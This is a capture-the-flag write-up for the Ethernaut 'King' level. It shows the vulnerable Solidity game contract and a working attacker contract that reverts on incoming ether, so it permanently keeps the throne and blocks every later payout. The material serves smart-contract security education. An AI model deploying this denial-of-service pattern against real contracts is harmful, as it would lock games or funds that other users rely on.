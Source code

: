 # Ethernaut: 9. King

> The contract below represents a very simple game: whoever sends it an amount of ether that is larger than the current prize becomes the new king. On such an event, the overthrown king gets paid the new prize, making a bit of ether in the process! As ponzi as it gets xD
>
> Such a fun game. Your goal is to break it.

**Objective of CTF:**

- Break the game by unrightfully winning it!

**Target contract:**

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

contract King {

  address payable king;
  uint public prize;
  address payable public owner;

  constructor() public payable {
    owner = msg.sender;
    king = msg.sender;
    prize = msg.value;
  }

  receive() external payable {
    require(msg.value >= prize || msg.sender == owner);
    king.transfer(msg.value);
    king = msg.sender;
    prize = msg.value;
  }

  function _king() public view returns (address payable) {
    return king;
  }
}
```

The ponzi starts with 0.001 ether. We can exploit the game by giving an greater or equal ether, but via a contract that disallows receiving ether. This way, if someone is eligible to be the new king, the transaction will fail when it tries to send us the prize!

```solidity
contract KingAttacker {
  error ImTheKing();

  receive() external payable {
    revert ImTheKing();
  }

  fallback() external payable {
    revert ImTheKing();
  }

  function pwn(address payable _to) public payable {
    (bool sent, ) = _to.call{value: msg.value}("");
    require(sent, "pwnage failed");
  }
}
```

The contract is simple: a forward function forwards our sent money to some address. The recieving address will know the contract as `msg.sender`, however they won't be able to send money back. Preventing to recieving money can be done by **not** implementing `receive` and `fallback` functions. In my case, I wanted to be a little bit cheeky and I implement them but inside revert with "Im the king!" message when they send me money ;)

**A note on Call vs. Transfer**: We used `_to.call{value: msg.value}("")` instead of `_to.transfer(msg.value)`. This is because `transfer` sends 2300 gas to the receiver, but that gas may not always be enough for the code to run on their side; so we must forward all our gas to them with `call`.
